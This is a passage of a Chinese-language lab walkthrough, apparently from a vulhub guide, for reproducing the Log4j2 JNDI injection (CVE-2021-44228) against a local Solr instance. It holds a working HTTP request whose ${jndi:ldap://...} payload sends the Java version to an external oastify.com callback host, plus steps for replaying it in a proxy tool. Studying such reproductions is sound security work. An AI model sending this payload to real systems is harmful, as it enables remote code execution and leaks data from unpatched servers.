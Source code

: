 修改 URL，目标 IP，和端口

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.bn2sdf6d1h8qdh8t8805xefxjopfd91y.oastify.com} HTTP/1.1
Host: centos.local:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

> 要先复制 payload 再在重放器中粘贴请求，顺序不能颠倒

`注意空格不能多也不能少。`

粘贴请求包至重放器

![粘贴请求包至重放器](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E7%B2%98%E8%B4%B4%E8%AF%B7%E6%B1%82%E5%8C%85%E8%87%B3%E9%87%8D%E6%94%BE%E5%99%A8.png)

对 ${ } 及其内容进行 URL 编码
